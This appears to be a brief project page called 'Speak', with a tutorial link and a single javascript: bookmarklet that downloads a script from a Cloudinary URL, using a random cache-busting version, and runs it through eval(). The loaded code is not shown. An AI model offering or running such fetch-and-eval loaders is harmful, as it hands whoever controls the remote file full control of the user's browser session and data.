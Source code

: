 Tutorial : https://youtu.be/0XkH_GcDjVk

# Speak 

```javascript
javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))```
